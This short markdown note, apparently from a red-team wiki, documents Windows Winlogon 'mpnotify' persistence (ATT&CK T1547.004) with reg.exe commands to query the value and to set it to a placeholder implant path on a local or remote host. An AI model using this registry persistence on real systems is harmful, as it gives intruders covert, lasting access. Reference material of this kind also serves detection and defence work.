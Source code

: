 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1547-004
  - windows
---
```

# WinLogon

## 01 - Command Prompt

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v mpnotify
```

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /t REG_SZ /v mpnotify /d "C:\path\to\implant.exe" /f
```

---
## References

### Backlinks

- [[Autostart Locations]]

### Persistence Info

- [Persistence Info: MPNotify](https://persistence-info.github.io/Data/mpnotify.html)

### Red Team Notes

- [Red Team Notes: Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper)